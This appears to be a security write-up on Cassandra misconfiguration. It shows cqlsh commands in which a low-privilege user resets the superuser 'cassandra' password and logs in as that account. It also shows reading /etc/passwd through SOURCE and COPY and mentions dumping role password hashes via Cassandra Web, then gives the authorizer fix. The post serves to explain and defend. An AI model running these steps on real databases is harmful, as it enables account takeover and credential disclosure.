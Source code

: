 Let's drop into a Cassandra client shell.

```
$ cqlsh -u test
Password: [test]
test@cqlsh>

test@cqlsh> create role test1 with password = 'test1' and superuser = true and login = true;
Unauthorized: Error from server: code=2100 [Unauthorized] message="Only superusers can create a role with superuser status"

test@cqlsh> alter role cassandra with password = 'test';

user@ubuntu:~$ cqlsh -u cassandra -p test
cassandra@cqlsh>
```

There's also some ways to read arbitrary files client-side.

```
test@cqlsh> SOURCE '/etc/passwd';
/etc/passwd:2:Invalid syntax at char 17
/etc/passwd:2:  root:x:0:0:root:/root:/bin/bash
...
```

```
test@cqlsh> create keyspace etc with replication = {'class':'SimpleStrategy', 'replication_factor':1};
........... create table etc.passwd (a text PRIMARY KEY, b text, c text, d text, e text, f text, g text);
............copy etc.passwd from '/etc/passwd' with delimiter = ':';
```

Because the client is reading files client-side (and not server-side), this is obviously not an issue, unless.. you complicate things by exposing a cassandra client over a the network with a web interface using something like Cassandra Web. Surely that scenario would not make one think they'd be any bugs there. Or if so, packages would need to be updated with the latest fixes... [hm](https://github.com/avalanche123/cassandra-web/commit/f11e47a26f316827f631d7bcfec14b9dd94f44be).

To their credit, Cassandra Web does throw errors when you try source and copy commands. But one can still do things like dump `system_auth.roles` for password hashes. And there was a directory traversal bug they patched that was pretty useful.


## Mitigations

Turn on authorization.

Flip authorizer to CassandraAuthorizer in cassandra.yaml as referenced [here](https://docs.datastax.com/en/cassandra-oss/3.0/cassandra/configuration/secureConfigInternalAuth.html).

```
test@cqlsh> alter role cassandra with password = 'test';
Unauthorized: Error from server: code=2100 [Unauthorized] message="User test does not have sufficient privileges to perform the requested operation"
```
